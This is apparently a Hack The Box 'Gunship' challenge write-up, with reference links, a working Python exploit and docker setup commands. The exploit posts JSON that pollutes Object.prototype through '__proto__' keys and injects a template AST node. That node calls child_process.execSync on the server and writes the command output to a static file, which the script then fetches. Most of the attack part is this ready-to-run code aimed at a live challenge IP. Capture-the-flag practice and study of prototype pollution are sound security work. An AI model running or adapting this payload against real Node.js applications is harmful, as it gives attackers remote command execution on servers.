

ref:- 
https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution
https://portswigger.net/web-security/prototype-pollution
https://app.hackthebox.com/challenges/Gunship


```python
import requests
TARGET_URL = 'http://94.237.63.83:39617'
# TARGET_URL = 'http://127.0.0.1:1337'
newJSON={
"artist.name":"Gingell",
"__proto__.block": {
"type": "Text",
"line": "process.mainModule.require('child_process').execSync(`ls > /app/static/out`)"
}}
oldjson={
"artist.name":"Gingell",
"__proto__.type": "Program",
"__proto__.body": [{
"type": "MustacheStatement",
"path": 0,
"params": [{
"type": "NumberLiteral",
"value": "process.mainModule.require('child_process').execSync(`ls > /app/static/out`)"
}],
"loc": {
"start": 0,
"end": 0
}
}]
}
# make pollution
r = requests.post(TARGET_URL+'/api/submit', json = newJSON)
print(r.status_code)
print(r.text)
print(requests.get(TARGET_URL+'/static/out').text)
```




#### with docker
download docker file from htb

###### build
```bash
sudo docker build -t web_gunship .
```

###### run it
```bash
sudo docker run -p 1337:1337 web_gunship
```

If you want to get shell to that docker

```bash
sudo docker ps
```


```
CONTAINER ID   IMAGE     COMMAND                  CREATED         STATUS         PORTS                                       NAMES
e8a996d1906d   gunship   "/entrypoint.sh /usr…"   7 minutes ago   Up 7 minutes   0.0.0.0:1337->1337/tcp, :::1337->1337/tcp   awesome_payne
```

```bash
sudo docker exec -it e8a996d1906d sh
```